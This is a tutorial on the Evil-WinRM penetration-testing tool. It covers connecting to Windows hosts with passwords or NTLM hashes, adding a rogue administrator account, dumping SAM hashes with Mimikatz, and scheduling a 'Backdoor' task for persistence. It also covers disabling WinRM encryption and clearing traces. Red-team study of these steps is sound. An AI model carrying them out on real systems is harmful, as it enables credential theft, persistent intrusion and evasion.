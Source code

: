 ### Step-by-Step Tutorial on Using Evil-WinRM

Evil-WinRM is a popular tool for penetration testers and red teamers to interact with Windows machines using the Windows Remote Management (WinRM) protocol. It allows for remote code execution, file transfer, and other administrative tasks. Below is a detailed guide on how to use Evil-WinRM effectively.

#### Prerequisites

1. **Kali Linux or any other pentesting distribution**: Evil-WinRM is pre-installed in Kali Linux.
2. **A target Windows machine**: Ensure that the target machine has WinRM enabled and that you have valid credentials (username and password or NTLM hash).

#### Step 1: Installing Evil-WinRM

If you don't have Evil-WinRM installed, you can install it using the following command:
```bash
gem install evil-winrm
```

#### Step 2: Enable WinRM on the Target Machine

WinRM must be enabled on the target Windows machine. You can enable it using PowerShell on the target machine:
```powershell
winrm quickconfig
winrm set winrm/config/client/auth @{Basic="true"}
winrm set winrm/config/service/auth @{Basic="true"}
winrm set winrm/config/service @{AllowUnencrypted="true"}
```

#### Step 3: Connecting to the Target Machine

Use Evil-WinRM to connect to the target machine. You need the IP address of the target machine and valid credentials.

**Example: Connect using Username and Password**
```bash
evil-winrm -i <target-ip> -u <username> -p <password>
```

**Example: Connect using NTLM Hash**
```bash
evil-winrm -i <target-ip> -u <username> -H <ntlm-hash>
```

#### Step 4: Using Evil-WinRM

Once connected, you will have an interactive PowerShell session. Here are some common tasks you can perform:

1. **Execute Commands**
   ```powershell
   whoami
   ipconfig
   ```
2. **Upload Files**
   ```powershell
   upload /path/to/local/file C:\path\to\remote\destination
   ```
3. **Download Files**
   ```powershell
   download C:\path\to\remote\file /path/to/local/destination
   ```
4. **Check System Information**
   ```powershell
   systeminfo
   ```

#### Examples

1. **Check Network Configuration**
   ```powershell
   ipconfig /all
   ```

2. **List Files in a Directory**
   ```powershell
   dir C:\Users\<username>\Documents
   ```

3. **Add a New User**
   ```powershell
   net user eviladmin Password123! /add
   net localgroup administrators eviladmin /add
   ```

4. **Dump Password Hashes (Requires Privileges)**
   Using Mimikatz (you must have it uploaded or accessible):
   ```powershell
   mimikatz.exe "privilege::debug" "lsadump::sam" exit
   ```

#### Step 5: Maintaining Access

To maintain access, you might want to create a persistent backdoor or schedule a task:
```powershell
schtasks /create /sc daily /tn "Backdoor" /tr "C:\path\to\payload.exe" /st 12:00
```

#### Step 6: Cleaning Up

After completing your tasks, it’s good practice to clean up any traces of your activities:
```powershell
net user eviladmin /delete
del C:\path\to\uploaded\files
```

### Conclusion

Evil-WinRM is a powerful tool for remote administration and penetration testing of Windows machines. By following this guide, you should be able to effectively use Evil-WinRM for various tasks in your cybersecurity endeavors. Always remember to use these tools responsibly and within the bounds of the law and ethical guidelines.